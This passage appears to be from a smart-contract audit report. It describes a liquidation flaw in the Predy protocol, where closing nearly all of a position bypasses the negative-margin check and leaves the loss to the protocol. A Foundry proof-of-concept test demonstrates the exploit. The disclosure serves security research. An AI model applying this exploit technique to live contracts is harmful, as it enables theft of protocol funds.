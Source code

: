 Considering the case where liquidation of a full position would result in negative margin, liquidators should only be incentivized to partially close a position to the point that vault's margin becomes zero because that would be their maximum profit.

However, with the logic flaw mentioned, liquidators can increase their profit by closing nearly full position (99.99% closed), effectively leaving the loss to the protocol.

### Proof-of-Concept

This test demonstrates that liquidating nearly full position can bypass the negative margin check and leave the loss to the protocol.

- Add the below test in `2024-05-predy/test/pool/ExecLiquidationCall.t.sol`.
- Run `forge test --match-contract TestExecLiquidationCall --match-test testLiquidateSucceedsWithNegativeMarginRemaining -vv`:

```

        function testLiquidateSucceedsWithNegativeMarginRemaining() public {
            console2.log("[>] Opening a long perp position, amount=500e6 | margin=100e6");
            IPredyPool.TradeParams memory tradeParams =
                IPredyPool.TradeParams(1, 0, 500 * 1e6, 0, abi.encode(_getTradeAfterParams(100 * 1e6)));
            _tradeMarket.trade(tradeParams, _getSettlementData(Constants.Q96));

            IPredyPool.VaultStatus memory vaultStatus = _predyPoolQuoter.quoteVaultStatus(1);
            console2.log("[>] Vault's value: %s", vaultStatus.vaultValue);
            
            console2.log("[>] Magically make price lower");
            _movePrice(false, 10 * 1e16);
            vm.warp(block.timestamp + 1 minutes);
            console2.log("[>] Magically make price lower again and warp for TWAP");
            _movePrice(false, 5 * 1e16);
            vm.warp(block.timestamp + 29 minutes);

            vaultStatus = _predyPoolQuoter.quoteVaultStatus(1);
            console2.log("[>] Vault's value: %s", vaultStatus.vaultValue);
            console2.log("[>] Vault's margin: %s", vaultStatus.position.margin );
            console2.log("[>] Vault's quote position: %s", vaultStatus.position.amountQuote );
            console2.log("[>] Vault's base position: %s", vaultStatus.position.amountBase );

            uint indexPrice = predyPool.getSqrtIndexPrice(1);

            IFillerMarket.SettlementParams memory settlementParams =
                _getDebugSettlementData( indexPrice * 8950/10000 , type(uint).max);

            console2.log("[>] Position is now liquidatable, liquidates almost all position to leave the position open");
            IPredyPool.TradeResult memory tradeResult = _tradeMarket.execLiquidationCall(1, 0.99999e18, settlementParams);
            vaultStatus = _predyPoolQuoter.quoteVaultStatus(1);
            console2.log("[>] Vault is liquidated, left with negative margin");
            assertLt(vaultStatus.position.margin, 0);
            console2.log("[>] Vault's margin: %s", vaultStatus.position.margin );
            console2.log("[>] Vault's quote position: %s", vaultStatus.position.amountQuote );
            console2.log("[>] Vault's base position: %s", vaultStatus.position.amountBase );
            console2.log("[>] Position's perpPayoff: %s", tradeResult.payoff.perpPayoff);
        }
```
